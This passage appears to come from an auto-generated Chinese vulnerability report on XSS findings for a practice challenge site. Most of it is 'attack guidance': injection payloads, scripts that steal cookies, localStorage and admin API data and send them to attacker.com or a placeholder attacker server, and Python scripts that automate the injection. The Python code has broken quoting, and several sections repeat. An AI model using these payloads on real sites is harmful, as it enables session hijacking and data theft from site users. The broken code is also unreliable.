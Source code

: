 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: critical
- 验证载荷: <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<script>alert(1)</script>'}
   ```